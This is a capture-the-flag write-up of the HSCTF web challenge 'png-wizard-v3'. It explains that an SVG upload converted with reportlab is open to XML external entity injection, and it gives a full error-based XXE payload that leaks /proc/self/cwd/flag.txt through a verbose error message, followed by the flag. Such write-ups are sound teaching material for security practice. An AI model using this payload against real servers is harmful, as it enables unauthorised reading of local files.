





# Web Exploitation

<!-- challenge-index: fb74ef6e7b5d97e1 -->

| Challenge | Topic |
| --- | --- |
| [png-wizard-v3 (8 solves)](#png-wizard-v3-8-solves) | SVG, XML External Entities |

<!-- /challenge-index -->

## png-wizard-v3 (8 solves)

### Description

Now with support for modern image formats!

[http://png-wizard-v3.hsctf.com](http://png-wizard-v3.hsctf.com/)

### Solution

When we try to upload SVG file the response is `Error converting file: Unknown image kind .PNG`. &#x20;

<figure><figcaption></figcaption></figure>

By checking on `reportlab 3.6.12` source code we can see that the error caused by invalid format/extension for saved file. Valid format should be PNG not .PNG .&#x20;

<figure><figcaption></figcaption></figure>

Loooking at source code, we can see that there is XXE vulnerability while parsing the SVG data. But since we can't download the rendered file we can't do common XXE.

<figure><figcaption></figcaption></figure>

Another information we have that there is error verbose indicating what is the caused of the error. So the idea is we try to use this error verbose to leak information from system. Payload reference : <https://balsn.tw/ctf_writeup/20190622-googlectfquals/>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```xml
<!DOCTYPE svg [ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///proc/self/cwd/flag.txt">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]><svg width="2048px" height="1024px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="40" x="40" y="40">&xxe;</text></svg>
```

Flag : flag{are\_you\_really\_a\_wizard\_if\_you\_dont\_use\_magick}
